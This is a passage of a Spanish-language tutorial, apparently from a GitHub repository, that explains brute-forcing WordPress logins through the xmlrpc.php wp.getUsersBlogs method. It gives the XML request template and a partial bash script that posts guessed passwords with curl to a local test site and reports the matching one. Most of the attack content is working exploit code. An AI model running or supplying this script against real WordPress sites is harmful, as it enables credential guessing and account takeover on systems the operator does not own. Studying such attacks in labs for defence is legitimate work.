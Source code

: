 ```xml
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Pues bien a nosotros solo nos interesa el metodo `<value><string>wp.getUsersBlogs</string></value>` para realizar el ataque de fuerza bruta.
4. Estructura xml para probar contraseñas de usuarios
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>admin</value></param> 
<param><value>admin123</value></param> 
</params> 
</methodCall>
```

5. Script para el ataque de fuerza bruta
```bash
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n [+]Saliendo...\n\n"
        exit 1
}

trap ctrl_c SIGINT

function crearxml(){
        password=$1
        xmltype="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>jesus</value></param>
<param><value>$password</value></param>
</params>
</methodCall>
"""

echo $xmltype > file.xml
echo "Probando con la contraseña $password"

response=$(curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml)

if [ ! "$(echo $response | grep "Incorrect username or password")"  ];then
        echo "The password is $password"
        exit 0
fi


```